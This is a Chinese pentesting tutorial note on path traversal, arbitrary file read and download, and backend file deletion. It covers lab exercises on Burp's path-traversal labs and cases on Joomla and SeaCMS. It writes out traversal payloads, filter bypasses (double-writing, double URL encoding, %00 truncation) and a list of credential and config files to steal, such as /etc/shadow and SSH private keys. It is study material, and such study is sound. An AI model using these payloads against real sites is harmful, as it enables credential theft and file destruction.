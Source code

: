 # 文件安全

### 文件读取/下载

```
常规下URL:http://xxx.com/upload/1.txt

不安全的下载：http://xxx/com?s=upload/1.txt

#黑盒分析：
1、功能点
文件上传，文件下载，文件删除，文件管理器等地方
2、URL特征
文件名：
download，down，readfile，read，del，dir，path，src，Lang等
参数名：
file、path、data、filepath、readfile、data、url、realpath等
#白盒分析：
上传类函数，删除类函数，下载类函数，目录操作函数，读取查看函数等

利用：下载敏感文件（数据库配置，中间件配置等文件）
```





#### 案例一:文件下载

使用readfile.php中的file变量下载readfile.php

```
http://xxxxx/files/readfile.php?file=readfile.php
```

![image-20240427172109314](D:\Infiltration\笔记\note\图片\image-20240427172109314.png)

readfile.php

![image-20240427172140478](D:\Infiltration\笔记\note\图片\image-20240427172140478.png)

下载index.php文件

```
http://xxxxx/files/readfile.php?file=../index.php
```

![image-20240427172358086](D:\Infiltration\笔记\note\图片\image-20240427172358086.png)



index.php 从首页文件可以看到是Joomla的cms

![image-20240427172437839](D:\Infiltration\笔记\note\图片\image-20240427172437839.png)

Joomla默认数据库配置文件名是：configuration.php



```
http://xxxxx/files/readfile.php?file=../configuration.php
```

![image-20240427173701032](D:\Infiltration\笔记\note\图片\image-20240427173701032.png)



```
/files/readfile.php?file=../../../../../../etc/passwd
```



windows



```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
```

linux

```
/root/.ssh/authorized_keys //如需登录到远程主机，需要到.ssh目录下，新建authorized_keys文件，并将id_rsa.pub内容复制进去
/root/.ssh/id_rsa //ssh私钥,ssh公钥是id_rsa.pub
/root/.ssh/id_ras.keystore //记录每个访问计算机用户的公钥
/root/.ssh/known_hosts
//ssh会把每个访问过计算机的公钥(public key)都记录在~/.ssh/known_hosts。当下次访问相同计算机时，OpenSSH会核对公钥。如果公钥不同，OpenSSH会发出警告， 避免你受到DNS Hijack之类的攻击。
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/redhat-release 系统版本 
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/var/lib/mlocate/mlocate.db //全文件路径
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/porc/self/cmdline //当前进程的cmdline参数
/proc/sched_debug 配置文件可以看到当前运行的进程并可以获得对应进程的pid
/proc/pid/cmdline   则可以看到对应pid进程的完整命令行。
/proc/net/fib_trie   内网IP
/proc/self/environ   环境变量
/proc/self/loginuid   当前用户
```



```
#文件安全-下载&删除-黑白盒
1、下载=读取
常规下载URL：http://www.xiaodi8.com/upload/123.pdf
可能存在安全URL：http://www.xiaodi8.com/xx.xx?file=123.pdf
利用：常规下载敏感文件（数据库配置，中间件配置，系统密匙等文件信息）
2、文件删除（常出现后台中）
可能存在安全问题：前台或后台有删除功能应用
利用：常规删除重装锁定配合程序重装或高危操作

#目录安全-遍历&穿越-黑白盒
1、目录遍历
目录权限控制不当，通过遍历获取到有价值的信息文件去利用
2、目录穿越（常出现后台中）
目录权限控制不当，通过控制查看目录路径穿越到其他目录或判断获取价值文件再利用



```



#### 案例二：文件读取

##### burp路径遍历靶场

随便点进一个页面复制图片地址

![image-20240427213813480](D:\Infiltration\笔记\note\图片\image-20240427213813480.png)



访问后抓包放到repeater里读取文件路径改为读取passwd

```
../../../../etc/passwd 
```



![image-20240427214058002](D:\Infiltration\笔记\note\图片\image-20240427214058002.png)

双写绕过

```
..././..././..././etc/passwd
```

![image-20240427215335352](D:\Infiltration\笔记\note\图片\image-20240427215335352.png)



 二次URL编码绕过

```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc%25%32%66passwd 
```



![image-20240427221548951](D:\Infiltration\笔记\note\图片\image-20240427221548951.png)



![image-20240427221434490](D:\Infiltration\笔记\note\图片\image-20240427221434490.png)



![image-20240427222752147](D:\Infiltration\笔记\note\图片\image-20240427222752147.png)



%00截断

```
../../../../../etc/passwd%00.png
```

![image-20240427223831713](D:\Infiltration\笔记\note\图片\image-20240427223831713.png)



### 文件删除(后台)

#### 案例：海洋CMS



登录后台，访问下面路径，点击删除抓包

```
http://192.168.100.1:1002/upload/kajzfg/admin_template.php?path=../templets/default/html
```

![image-20240427232339503](D:\Infiltration\笔记\note\图片\image-20240427232339503.png)



![image-20240427232747772](D:\Infiltration\笔记\note\图片\image-20240427232747772.png)





在upload下创建一个123.txt，尝试发包删除

```
/upload/kajzfg/admin_template.php?action=del&filedir=../../../123.txt 
```

![image-20240427232903444](D:\Infiltration\笔记\note\图片\image-20240427232903444.png)

做了过滤只能删除templets下的文件，加上templets用文件遍历绕过

```
/upload/kajzfg/admin_template.php?action=del&filedir=../templets/default/html/../../../../../../123.txt
```

![image-20240427233038636](D:\Infiltration\笔记\note\图片\image-20240427233038636.png)



### 目录遍历

目录权限控制不当，通过遍历获取到有价值的信息文件去利用

fofa语法

```
index of/
```

![image-20240428223048039](D:\Infiltration\笔记\note\图片\image-20240428223048039.png)

中间件配置不当，目录索引，以下为phpstudy举例

![image-20240428222635638](D:\Infiltration\笔记\note\图片\image-20240428222635638.png)







### 目录穿越(后台）

目录权限控制不当，通过控制查看目录路径穿越到其他目录或判断获取价值文件再利用



#### 案例：海洋CMS



正常路径只能看到这里



```
path=../templets
```



![image-20240428223837536](D:\Infiltration\笔记\note\图片\image-20240428223837536.png)



加上../进行目录穿越，需要加上templets

```
path=../../../
```

![image-20240428224100999](D:\Infiltration\笔记\note\图片\image-20240428224100999.png)



成功遍历到上级目录

```
path=../templets/../
```

![image-20240428224158991](D:\Infiltration\笔记\note\图片\image-20240428224158991.png)



